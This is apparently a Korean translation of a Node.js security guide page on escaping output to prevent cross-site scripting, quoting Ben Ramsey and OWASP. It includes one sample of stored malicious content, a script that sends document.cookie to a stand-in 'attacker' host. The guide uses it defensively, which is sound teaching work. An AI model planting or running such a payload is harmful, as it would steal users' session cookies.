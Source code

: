# 출력을 이스케이프하라

### 한 문단 설명

HTML과 여타 웹 언어들은 내용을 실행가능 코드와 혼합한다 - 단일 HTML 문단은 자바스크립트 실행 지시를 따라 데이터의 시각적 표현을 포함하고 있을 것이다.
HTML을 랜더링 하거나 API로 부터 데이터를 반환하는 경우에 우리는 순수 content가 브라우저에서 해석되고 실행되는 자바스크립트 코드를 포함할 것으로 믿는다. 이러한 것은 예를들어 해커가 데이터베이스에 심어둔 content - 예, `<div><script>//malicious code</script></div>`를 랜더링할 때 발생한다. 브라우저에게 신뢰할 수 없는 데이터 청크를 절대 해석하지 말라고 지시함으로써 이 문제를 완화할 수 있다 - 이 기술을 이스케이핑이라 부른다. 많은 npm 라이브러리들과 HTML 템플릿이 이스케이핑 기능을 제공한다. (예: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). HTML 뿐 아니라 CSS와 자바스크립트 content 또한 이스케이프 되어야한다.

### 코드 예시 - 너의 HTML에 신뢰할 수 없는 데이터를 넣지 마라.

```javascript
<script>...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...</script>   directly in a script

 <!--...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...-->             inside an HTML comment

 <div ...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...=test />       in an attribute name

 <신뢰할 수 없는 데이터를 절대 여기 올리지 마라... href="/test" />   in a tag name

 <style>...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...</style>   directly in CSS

```

### 코드 예시 - DB에 심어질 수 있는 악성 content

```javascript
<div>
  <b>포스트의 임시 내용</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### 블로그 인용: "문자가 해석되기 원치 않을 때"

다음의 블로그로 부터 [benramsey.com](https://benramsey.com/articles/escape-output/)

> 데이터는 너의 애플리케이션이 HTML, SQL, XML, WML의 폼으로 각 웹브라우저, 데이터베이스, RSS 리더, 무선기기 등으로 전송되게 할 것이다. 가능성은 무궁무진하다.
> 각각의 폼은 여타 일반적인 글자와는 다르게 해석되는 그들만의 문자셋을 가지고 있다. 때에 따라 문자셋을 전송하여 해석되길 원할 수도 원치 않을 수도(유저 혹은 몇 다른 자원으로 부터 입력이 들어오는 경우) 있기에 우리는 이 문자셋을 이스케이프해야한다.

> 이스케이핑은 또한 종종 인코딩이라고도 불리운다. 이것은 간단히 말해, 장차 해석되거나 실행되지 않는 형태로 데이터를 표현하는 처리과정을 말한다. 에를들어, HTML은 <strong> 태그가 특별한 의미를 가지고 있기 떄문에 웹브라우저에서 아래와 같은 문장을 볼드체로 렌더링할 것이다:
> <strong>This is bold text.</strong>
> 그러나 브라우저에서 태그를 랜더링하더라도 그들이 해석됨을 원치 않음을 가정해 보아라. 그땐, HTML에서 특수한 의미를 지니는 괄호 앵글을 이스케이프 해야한다. 다음은 이스케이프된 HTML을 보여준다:

&lt;strong&gt;This is bold text.&lt;/strong&gt;

<br/><br/>

### 블로그 인용: OWASP는 보안-중심 인코딩 라이브러리의 사용을 권장한다.

OWASP의 블로그로 부터 [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> (중략)"이러한 인코더들을 작성함은 그렇게 어렵진않다. 그러나 꽤 많은 함정이 존재한다. 자바스크립트에서 \와 같은 이스케이핑 숏컷을 사용하고자 하는 유혹을 느끼는 것이 그 예이다." 하지만, 이러한 value들은 위험하고 브라우저의 nested-parer에 의해 잘못해석될 여지가 있다. 또한 안전해지려는 너의 노력을 무효화 하는 데 사용할 수 있는 이스케이프 문자를 이스케이프 하는 것을 까먹을 수 있다. **OWASP는 이러한 규칙들이 올바르게 수행되게 하도록 보안-중심 인코딩 라이브러리를 사용할 것을 권장한다**."

<br/><br/>

### 블로그 인용: "HTML의 일부분에는 반드시 이스케이프 구문을 사용하여야 한다."

OWASP의 블로그로 부터 [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "그러나 너가 신뢰할 수 없는 데이터를 <script>태그 안 어느곳, 혹은 onmouseover와 같은 이벤트 핸들러 어트리뷰트, 혹은 CSS 또는 URL에 집어넣는다면 HTML 엔티티 인코딩은 작동하지 않을 것이다. 따라서 너가 HTML 엔티티 인코딩을 모든 곳에 삽입하더라도 XSS로 부터 자유롭지 못하다. 너는 신뢰할 수 없는 데이터를 넣는 HTML 도큐먼트 부분에 반드시 이스케이프 구문을 사용하여야 한다.
